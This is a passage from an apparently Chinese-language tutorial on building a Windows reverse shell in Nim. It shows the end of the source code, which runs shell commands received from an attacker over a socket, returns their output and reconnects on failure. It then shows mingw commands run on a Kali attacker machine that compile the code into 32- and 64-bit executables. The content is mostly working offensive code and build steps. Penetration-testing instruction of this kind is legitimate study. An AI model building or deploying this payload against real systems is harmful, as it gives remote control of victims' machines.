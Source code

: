 ```
                var command = socket.recvLine() # read in a line from the attacker, which should be a shell command to execute
                var result = execProcess(command) # execProcess() returns the output of a shell command as a string
                socket.send(result) # send the results of the command to the attacker

            # if the attacker forgets they're in a rev shell and tries to ctrl+c, which they inevitably will, close the socket and quit the program    
            except:
                echo "Connection lost, quitting..."
                socket.close()
                system.quit(0)

# if the connection fails, wait 10 seconds and try again        
    except:
        echo "Failed to connect, retrying in 10 seconds..."
        sleep(10000) # note that sleep() takes its argument in milliseconds, at least by default
        continue
```

为了完整起见，我们向您展示如何编译 x86 和 x64 二进制文件。其实 x86 就够了。这是因为 32 位可执行文件可以在 x86 和 x64 架构上运行。

3.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

将 nim 源代码编译成 Windows x86 en x64 反向 shell exe 二进制文件。

```
# 32bits compilation
nim c -d:mingw --cpu:i386 -t:-m32 -l:-m32 /tmp/reverse_shell.nim 
mv /tmp/reverse_shell.exe /tmp/rev-x86.exe  

# 64bits compilation
nim c -d:mingw --cpu:amd64 /tmp/reverse_shell.nim 
mv /tmp/reverse_shell.exe /tmp/rev-x64.exe
```

![](img/f8089df327a0a58640113230d140caa9.png)
